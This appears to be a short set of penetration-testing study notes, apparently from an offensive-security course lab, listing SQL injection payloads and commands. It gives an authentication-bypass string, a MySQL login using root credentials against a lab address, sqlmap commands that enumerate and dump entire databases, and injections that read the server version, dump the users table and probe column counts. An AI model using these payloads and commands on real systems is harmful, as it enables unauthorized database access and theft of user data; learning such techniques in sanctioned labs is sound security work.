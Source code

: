 To check sql vulnerability is there or not

```
offsec' OR 1=1 -- //
```

mysql code

```
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

sqlmap tool code

```
sqlmap -u {ip} -p id --dump-all
	sqlmap -u {ip} --dbs
	sqlmap -u {ip} -D {name_of_database} --tables
	sqlmap -u {ip} -D {name_of_database} -T {name} --columns
	sqlmap -u {ip} -D {name_of_database} -T {name} -C --dump
	sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
```

For verson

```
' or 1=1 in (select @@version) -- //
```

To dump all data from user table

```
' OR 1=1 in (SELECT * FROM users) -- //
```

To discover the correct number of columns, we can submit the following injected query into the search bar

```
' ORDER BY 1-- //
```

